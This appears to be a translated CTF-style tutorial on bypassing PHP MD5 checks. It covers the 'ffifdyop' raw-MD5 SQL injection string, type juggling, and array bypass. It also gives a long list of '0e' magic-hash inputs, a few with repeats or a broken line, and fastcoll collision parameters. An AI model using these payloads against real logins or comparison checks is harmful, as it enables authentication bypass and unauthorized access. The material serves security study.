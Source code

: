 # PHP Safe Learning—MD5

Author: H3rmesk1t

# Bypass md5() to construct attack statements
> Utilization value: ffifdyop
````sql
select * from 'admin' where password = md5($pass,true)
```
> The principle of this point is that `ffifdyop` The string hashed by md5 and will become `276f722736c95d99e921722cf9ed621c`. The first few digits of the string that are converted into hex are just 'or'6, and Mysql just happens to be hex to ascii explanation, so the form after splicing is `select * from 'admin' where password=''or'6xxxxxx'`, which is equivalent to or a permanent truth, so it is equivalent to a universal password, which can bypass the md5() function

# Comparison between numbers and strings

<img src="./images/11.png" alt="">

> The first statement that executes the statement in the above figure returns true , and the second one returns false , because when php converts the letters beginning into integers, it will be converted to 0 , if the letters after the preceding number are only taken before the first letter appears (for example: intval('123abd45gf') the result is 123)

# Array bypass
> Array bypass is suitable for the source code without judging variable types or content. If a filter function is added, it cannot be used.
> Common filtering functions are as follows

```php
ctype_alnum ( string $text ) : bool
// If all characters in text are letters and (or) numbers, return TRUE. Otherwise, return FALSE.

is_numeric ( mixed $var ) : bool
// Return TRUE if var is a numeric and a numeric string, otherwise return FALSE if
```

# Scientific notation bypass
> Bypassing `md5($val1) != md5($val2)`, its principle is 0e. A string with numbers beginning with numbers will be recognized as a scientific notation.

```
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
0e072485820392773389523109082030
s1665632922a
0e731198061491163073197128363787
s1502113478a
0e861580163291561247404381396064
s1836677006a
0e481036490867661113260034900752
s1091221200a
0e940624217856561557816327384675
s155964671a
0e342768416822451524974117254469
s1502113478a
0e861580163291561247404381396064
s155964671a
0e342768416822451524974117254469
s1665632922a
0e731198061491163073197128363787
s155964671a
0e342768416822451524974117254469
s1091221200a
0e940624217856561557816327384675
s1836677006a
0e481036490867661113260034900752
s1885207154a
0e509367213418206700842008763514
s532378020a
0e220463095855511507588041205815
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s214587387a
0e848240448830537924465865611904
s1502113478a
0e861580163291561247404381396064
s1091221200a
0e940624217856561557816327384675
s1665632922a
0e731198061491163073197128363787
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s1665632922a
0e731198061491163073197128363787
s878926199a
0e545993274517709034328855841020
240610708
0e462097431906509019562988736854
314282422
0e990995504821699494520356953734
571579406
0e972379832854295224118025748221
903251147
0e174510503823932942361353209384
1110242161
0e435874558488625891324861198103
1320830526
0e912095958985483346995414060832
1586264293
0e622743671155995737639662718498
2302756269
0e250566888497473798724426794462
2427435592
0e067696952328669732475498472343
2653531602
0e877487522341544758028810610885
3293867441
0e471001201303602543921144570260
3295421201
0e703870333002232681239618856220
3465814713
0e258631645650999664521705537122
3524854780
0e507419062489887827087815735195
3908336290
0e807624498959190415881248245271
4011627063
0e485805687034439905938362701775
4775635065
0e998212089946640967599450361168
4790555361
0e643442214660994430134492464512
5432453531
0e512318699085881630861890526097
5579679820
0e877622011730221803461740184915
5585393579
0e664357355382305805992765337023
6376552501
0e165886706997482187870215578015
7124129977
0e500007361044747804682122060876
7197546197
0e915188576072469101457315675502
7656486157
0e451569119711843337267091732412
QLTHNDT
0e405967825401955372549139051580
QNKCDZO
0e830400451993494058024219903391
EEIZDOI
0e782601363539291779881938479162
TUFEPMC
0e839407194569345277863905212547
UTIPEZQ
0e382098788231234954670291303879
UYXFLOI
0e552539585246568817348686838809
IHKFRNS
0e256160682445802696926137988570
PJNPDWY
0e291529052894702774557631701704
ABJIHVY
0e755264355178451322893275696586
DQWRASX
0e742373665639232907775599582643
DYAXWCA
0e42
4759758842488633464374063001
GEGHBXL
0e248776895502908863709684713578
GGHMVOE
0e362766013028313274586933780773
GZECLQZ
0e537612333747236407713628225676
NWWKITQ
0e763082070976038347657360817689
NOOPCJF
0e818888003657176127862245791911
MAUXXQC
0e478478466848439040434801845361
MMHUWUV
0e701732711630150438129209816536
```
> The values ​​after MD5 and double MD5 are all started with 0e

```
CbDLytmyGm2xQyaLNhWn
770hQgrBOjrcqftrlaZk
7r4lGXCH2Ksu2JNT3BYM
```

> The md5 value starting with 0e is also started with 0e: `0e215962017`

# md5 Collision
> Use fastcoll to perform md5 collisions to generate two strings with different literal values ​​but same md5

```php
if((string)$_POST['param1']!==(string)$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
        die("success!);
}

Param1=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
Param2=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

# Expand link
> [Link Address 1](https://binlep.github.io/2020/02/28/%E3%80%90Web%20%E7%AC%94%E8%AE%B0%E3%80%91md5%20%E7%BB%95%E8%BF%87%E6%80%BB%E7%BB%93/)
> [Link Address 2](https://blog.csdn.net/LYJ20010728/article/details/116779357)